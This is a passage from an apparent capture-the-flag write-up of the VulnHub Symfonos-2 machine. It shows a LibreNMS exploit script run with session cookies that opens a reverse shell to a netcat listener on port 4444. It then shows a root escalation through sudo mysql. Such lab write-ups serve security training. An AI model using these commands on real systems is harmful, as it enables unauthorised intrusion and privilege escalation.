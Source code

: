 	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/exploit]
	└─# python 47044.py http://localhost:8888 "XSRF-Token=eyJpdiI6InVYMkhsU3FqQ09NZ2xCeFd4N3RuTEE9PSIsInZhbHVlIjoiS2pmejIzc3lBOVhWallPZlpYQ1J6MzI5YUptQ1pQWFpaWndCdUZDOUV1R0h6bVoyaGZsZnh3RmFVNlZcL25rZ1hYaVQwY01obkg0YUtPTG9MKzRqZVN3PT0iLCJtYWMiOiI0NzVmYmFjNjBhZjI4NDM5YWNiMzY3MTA4ZjE1YzhlNWQxMzY0ODcyMWIwNDkxNmFmZmZiZjg0ODM1MzJlMTA4In0%3D; librenms_session=eyJpdiI6IjV4N1RUR1wveVBBUjliNlRnQWsxdElBPT0iLCJ2YWx1ZSI6ImNWRkN3VnBEbG16eE92bTU1aVBoVEFhQnBnMm5QamEyWWJ3YVV3MzZIY0VOMGxJR3BGN0tVMno0SVVkMmJQaGxPalJNaHJXQU5PK2dhQ0Z4RkxabEJRPT0iLCJtYWMiOiIwOGE1NDQ1MTY3YjJlMGVmZTg5NzZkYWNjYzE1OGZmYmRjMTRlZDU4YTE2MmU5NTNlMjljM2I2MzNjN2RiM2E0In0%3D; PHPSESSID=9e807k9im9sjtqtp5408c58qj4" 192.168.236.4 4444
	[+] Device Created Sucssfully

	┌──(root💀kali)-[~/vulnHub/Symfonos-2]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 192.168.236.7.
	Ncat: Connection from 192.168.236.7:46838.
	/bin/sh: 0: can't access tty; job control turned off
	$ whoami; id
	cronus
	uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
	```
	![](images/Pasted%20image%2020220124020916.png)
	
## Root - Via Sudo GTFO Bin
1. Check sudo access
	```
	cronus@symfonos2:/opt/librenms/html$ sudo -l
	Matching Defaults entries for cronus on symfonos2:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User cronus may run the following commands on symfonos2:
		(root) NOPASSWD: /usr/bin/mysql
	cronus@symfonos2:/opt/librenms/html$ 
	```
	- [mysql has a GTFO Bin entry](https://gtfobins.github.io/gtfobins/mysql/#sudo)
2. Exploit
	```
	sudo /usr/bin/mysql -e '\! /bin/sh'
	```
3. Root shell obtained
	```
	cronus@symfonos2:/opt/librenms/html$ sudo /usr/bin/mysql -e '\! /bin/sh'
	# whoami
